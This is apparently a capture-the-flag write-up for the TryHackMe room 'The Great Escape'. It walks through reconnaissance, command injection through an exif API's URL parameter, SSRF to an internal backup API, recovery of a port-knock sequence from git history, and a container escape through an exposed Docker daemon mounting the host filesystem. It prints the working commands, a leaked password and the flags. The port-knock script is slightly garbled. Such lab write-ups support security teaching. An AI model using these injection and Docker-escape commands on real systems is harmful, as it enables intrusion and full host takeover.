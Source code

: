 > The Great Escape

**export IP=10.10.128.135**

# Nmap

nmap -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
22/tcp    open     ssh?    syn-ack
| fingerprint-strings: 
|   GenericLines: 
|_    K'0E;Jomb]e-bQT&p-fHN3R7
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp    open     http    syn-ack     nginx 1.19.6
|_http-server-header: nginx/1.19.6
|_http-title: 503 Service Temporarily Unavailable
|_http-trane-info: Problem with XML parsing of /evox/about
```

# Nikto 

nitko -h http://$IP

```
+ Entry '/api/' in robots.txt returned a non-forbidden or redirect HTTP code (503)
+ Entry '/*.bak.txt$' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 3 entries which should be manually viewed.
```

# Gobuster

gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -o gobuster/initial -x txt,php,sql,bak,tar,cgi,bin,zip,js

```
Nothing
```

Looks like rate limiting is present. And we can't bruteforce passwords too!

# robots.txt

```
User-agent: *
Allow: /
Disallow: /api/
# Disallow: /exif-util
Disallow: /*.bak.txt$
```

## Hint

Some well known files may offer some help

Here the creator is using security.txt file in .well_known directory.

We can curl the request.

curl http://$IP/.well-known/security.txt

```
Hey you found me!

The security.txt file is made to help security researchers and ethical hackers to contact the company about security issues.

See https://securitytxt.org/ for more information.

Ping /api/fl46 with a HEAD request for a nifty treat.
```

curl -I http://$IP/api/fl46

```
HTTP/1.1 200 OK
Server: nginx/1.19.6
Date: Sat, 27 Feb 2021 09:47:12 GMT
Connection: keep-alive
flag: THM{b801135794bf1ed3a2aafaa44c2e5ad4}
```

We can now investigate `exif-util`. We can use wappalyzer and find that we are running vue.js, node.js and Nuxt.js. Let's try some basic js shell and we are not successful. We can't upload malicious images too. Now moving on to url.

We can set up a python server locally and try to insert the URL of our image it works and it gives a proper api call. 

`GET http://10.10.15.29/api/exif?url=http://10.8.107.21:8000/deku.jpg`

Some people use system call instead of curl. Let's try basic command injection.

curl http://10.10.15.29/api/exif?url=http://127.0.0.1/deku.jpg;id

```
uid=1001(n00bmast3r) gid=1001(n00bmast3r) groups=1001(n00bmast3r),27(sudo)
```

It's reflecting my own. And moving on to `exif-util.bak.txt`. We got exif-util and then .bak.txt$ but exif-util commented out. So we are accessing `exif-util.bak.txt`.

curl http://$IP/exif-util.bak.txt

And we got a vulnerable piece of code.

```
const response = await this.$axios.$get('http://api-dev-backup:8080/exif',
```

Looks like this is a valid API call. Let's combine both.

curl "http://$IP/api/exif?url=http://api-dev-backup:8080/exif?url=1;id"

We are executing as root but it is a docker environment we have to escape it!

By writing a simple python code we have mininum code execution.

python3 shell.py "cd /root;ls" => dev-note.txt

# dev-note.txt

```
Hey guys,

Apparently leaving the flag and docker access on the server is a bad idea, or so the security guys tell me. I've deleted the stuff.

Anyways, the password is fluffybunnies123

Cheers,

Hydra
```

curl -v http://$IP/api/login -d '{"username"\:"hydra","password"\:"fluffybunnies123"}' -H "Content-Type: application/json"

But error. And enumerating ssh now.

ssh -v hydra@$IP => Gives us random errors and looks like it is a hineypot `endlessh`, an SSH Tarpit.

python3 shell.py "cd /root;ls -la"

We got a .git directory. Let's look at the logs.

python3 shell.py "git -C /root log"

```
commit a3d30a7d0510dc6565ff9316e3fb84434916dee8
Author: Hydra <hydragyrum@example.com>
Date:   Wed Jan 6 20:51:39 2021 +0000

    Added the flag and dev notes
```

python3 shell.py "git -C /root show a3d30a7d0510dc6565ff9316e3fb84434916dee8"

```
+Hey guys,
+
+I got tired of losing the ssh key all the time so I setup a way to open up the docker for remote admin.
+
+Just knock on ports 42, 1337, 10420, 6969, and 63000 to open the docker tcp port.
+
+Cheers,
+
+Hydra
\ No newline at end of file
diff --git a/flag.txt b/flag.txt
new file mode 100644
index 0000000..aae8129
--- /dev/null
+++ b/flag.txt
@@ -0,0 +1,3 @@
+You found the root flag, or did you?
+
+THM{0cb4b947043cb5c0486a454b75a10876}
\ No newline at end of file
```

We can port knock using knockd or our own script.

# knock.sh

```
#!/bin/bash

curl $IP:42 -m 42
sleep 1
curl $IP:42 -m 1337
sleep 1
curl $IP:42 -m 10420
sleep 1
curl $IP:42 -m 6969
sleep 1
curl $IP:42 -m 63000
sleep 1
```

or just `knockd $IP 42 1337 10420 6969 63000`

Now we have docker daemon running at port 2375. We can run commands in docker to escape it.

docker -H tcp://$IP:2375 ps
docker -H tcp://$IP:2375 images => We got alpine image

We don't have to mount the image we can gain a shell using the following command.

docker -H tcp://$IP:2375 run -v /:/mnt --rm -it alpine:3.9 chroot /mnt sh

# root.txt

```
THM{c62517c0cad93ac93a92b1315a32d734}
```